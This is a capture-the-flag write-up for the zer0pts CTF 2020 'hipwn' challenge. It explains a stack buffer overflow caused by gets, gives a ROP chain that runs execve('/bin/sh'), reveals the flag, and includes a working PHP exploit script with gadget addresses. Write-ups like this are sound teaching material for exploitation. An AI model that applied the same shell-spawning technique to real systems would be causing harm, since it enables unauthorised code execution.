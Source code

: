 # hipwn - zer0pts CTF 2020 (pwn, 158p, 81 solved)
## Introduction

hipwn is a pwn task.

An archive containing a binary, and its source code is provided.

The binary asks the user for its name, and prints it.

## Exploitation

The binary uses `gets` to read the user input in a fixed-size array on the
stack. There is no protection on the stack.

This is the most basic case of a stack-based buffer overflow.

The binary is statically compiled, so the whole libc is contianed in the bianry.
It is not compiled as a position-independant executable. As a result, it is not
subject to ASLR.

The ROP chain used to exploit this binary is the following:
```assembler
pop rax; "/bin/sh\0"
pop rdi; 0x00604268 // somewhere on the bss
mov [rdi], rax
pop rsi; NULL
pop rdx, NULL
pop rax, SYS_execve
syscall
```

**Flag**: `zer0pts{welcome_yokoso_osooseyo_huanying_dobropozhalovat}`

## Appendices

### pwn.php

```php
#!/usr/bin/php
<?php
echo str_repeat("A", 0x100);

echo "BBBBBBBB";

const POPRDI = 0x0040141c;
const POPRAX = 0x00400121;
const POPRSI = 0x0040141a;
const POPRDX = 0x00402568;
const MOV    = 0x00400704; // mov [rdi], rax
const SYSCALL = 0x004024dd;
echo pack("Q*", ... [
	POPRAX, unpack("Q", "/bin/sh\0")[1],
	POPRDI, 0x00604268,
	MOV,

	POPRSI, 0, 0x15, // r15
	POPRDX, 0,

	POPRAX, 59,
	SYSCALL,

]);

echo "\n";
```
